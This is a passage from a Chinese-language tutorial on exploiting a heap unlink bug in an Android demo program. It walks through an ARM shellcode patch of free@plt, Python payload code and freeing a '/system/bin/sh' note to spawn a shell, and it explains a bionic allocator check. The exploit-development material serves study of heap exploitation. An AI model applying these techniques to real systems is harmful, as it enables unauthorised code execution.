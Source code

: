 ```
LDR R1, [PC]
BLX R1
system_addr
```
假如system_addr为0xB124A561，那么上面指令的机器码为：  
```
00109FE5
31FF2FE1
61A524B1
```
具体的代码如下：  

```
note0_content = p32(0xE59F1000) + p32(0xE12FFF31) + p32(self.system_addr)
self.__edit_note(0, 0xC, note0_content)
```
ps：在unlink_demo中.got section所在segment的flags是可写的，但是一运行起来，从/proc/pid/maps得到的结果却是该segment只读，于是只好修改unlink_demo文件中代码段的属性为可读写，这样就可以运行时修改free@plt的指令了。  
其实本来想直接修改got中free的地址，苦于这段内存只读，不知道怎么设置为可写。  

#### step 6. 新建并释放notes[2]，触发system(“/system/bin/sh”)
```
self.__malloc_note(2, 0xE, "/system/bin/sh")
self.__free_note(2)
```
当free(notes[2])时，由于free@plt会直接跳转到system()，所以这里相当于调用system(notes[2])，而notes[2]指向“/system/bin/sh”，所以这里相当于执行system(“/system/bin/sh”)，从而得到shell，利用成功！  

#### 结果
运行利用程序exp_unlink.py，通过gdb得到notes的地址，最后的运行结果如下：  

![](../pictures/heapunlink8.png)  

ps：完整的利用代码和涉及到的工具可以在我的github[下载](https://github.com/ManyFace/AndroidHeap/tree/master/AndroidUnlinkExploit)    
将how2heap中unsafe_unlink.c修改为32位后在Android模拟器上是运行不成功的，通过对比Linux和Android unlink时的源码发现，在Android中多了一条检测条件：ok_address(M, F)，就是检查F地址的合法性，因为malloc/free绝对不会向一个静态地址写数据。于是将unsafe_unlink.c 中`uint32_t* pointer_vector[10];` 改为  `uint32_t** pointer_vector; pointer_vector=(uint32_t**)malloc(10*sizeof(uint32_t));` 就可以在Android上跑通了。  

## 参考
https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c   
http://code.woboq.org/userspace/glibc/malloc/malloc.c.html  
http://androidxref.com/5.1.1_r6/xref/bionic/libc/upstream-dlmalloc/malloc.c  
https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/  